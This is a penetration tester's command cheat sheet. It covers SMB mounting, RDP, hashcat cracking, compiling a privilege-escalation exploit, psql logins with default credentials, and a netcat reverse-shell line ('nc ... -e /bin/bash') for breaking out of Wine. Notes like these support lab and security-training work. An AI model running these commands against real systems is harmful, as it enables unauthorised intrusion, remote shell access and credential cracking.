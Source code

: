 ## mount smb share
```sh
sudo mount -t cifs //10.1.1.1/'sharename' /home -o rw,vers=1.0,dir_mode=0777,file_mode=0777,nounix
# or
sudo mount -t cifs -o vers=1.0 //10.11.1.136/'Sharename' sharemount
```

## login to windows machine in the network with proxychains

```bash
xfreerdp /u:admin /v:ip_address +clipboard
```


LINK - https://raw.githubusercontent.com/rayhan0x01/my-cmd-stash/master/linux_cmd.md


## Breakout of wine
https://stackoverflow.com/questions/6004070/execute-shell-commands-from-program-running-in-wine
```
start /unix /bin/nc 192.168.49.102 22 -e /bin/bash
```

## Git Checkout Repo
```
git checkout -- .
```
## Ming Compile
```
i686-w64-mingw32-gcc 40564.c -o priv_esc.exe -lws2_32
```
## Hashcat
```
hashcat64 -m 400 -a 0 hash.txt wordlist.txt
```
Can get the mode with
```
hashid -m [file]
```

### OpenSSL
Start SSH server
```
opt/cert/openssl s_server -key /opt/cert/key.pem -cert /opt/cert/cert.pem -accept 4430 -HTTP
```

### PostGres
https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5
```
psql "sslmode=require host=192.168.245.60 dbname=postgres user=postgres password=postgres"
psql "host=192.168.245.60 dbname=postgres user=postgres password=postgres"
```
